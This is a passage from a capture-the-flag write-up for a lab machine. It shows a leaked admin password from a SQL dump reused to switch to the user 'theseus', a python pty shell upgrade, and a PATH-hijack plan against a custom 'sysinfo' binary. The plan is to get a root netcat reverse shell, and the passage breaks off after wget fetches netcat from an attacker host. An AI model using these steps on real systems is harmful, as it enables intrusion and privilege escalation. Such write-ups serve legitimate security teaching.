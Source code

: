 ```sql

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

We see this in the returned output

```sql
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

### User.txt

We can simply su theseus with this information to ascend our access privelages past www-data

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ cat /home/theseus/user.txt
cat /home/theseus/user.txt
ca4d{...}
```

We also spawn a tty shell as using the binary `su` needs a proper terminal so we can go ahead and read the flag.

## Root

### Enumeration

After some enum we find a binary called sysinfo which is infact a custom built bianry.

we will use the $PATH environment variable in conjunction with a bash script and sysinfo.

### The attack

Here is the basic login of our attack:

We will set the `$PATH` as `/tmp` where our file will be located. This will make sysinfo use fdisk so that we can create a custom script which will run containing a netcat command that we will place inside to try and get our reverse shell as root.

```bash
theseus@ubuntu:~$ wget http://10.10.14.26:8000/nc                                                      
wget http://10.10.14.26:8000/nc                                                                        
--2020-08-21 10:31:03--  http://10.10.14.26:8000/nc                                                    
Connecting to 10.10.14.26:8000... connected.                                                           
HTTP request sent, awaiting response... 200 OK                                                         
Length: 35520 (35K) [application/octet-stream]                                                         
Saving to: ‘nc’                                                                                        

```
